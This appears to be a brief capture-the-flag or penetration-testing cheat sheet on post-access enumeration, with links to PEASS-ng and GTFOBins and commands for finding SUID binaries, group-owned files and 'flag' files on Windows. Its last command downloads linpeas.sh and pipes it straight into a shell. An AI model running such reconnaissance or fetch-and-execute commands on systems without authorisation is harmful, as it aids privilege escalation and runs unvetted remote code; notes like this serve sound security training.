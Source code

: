 # Enumeration

## Links

- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- [GTFOBins](https://gtfobins.github.io)

## Find SUID binaries

```sh
find / -perm +6000 2>/dev/null | grep '/bin/'
```

## Find Group files

```sh
find / -type f -group GROUP 2>/dev/null
```

## Windows search file

```sh
Get-ChildItem -Path C:\ -Filter flag* -Recurse -ErrorAction SilentlyContinue -Force
```

## Linpeas wget

```sh
wget -qO- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
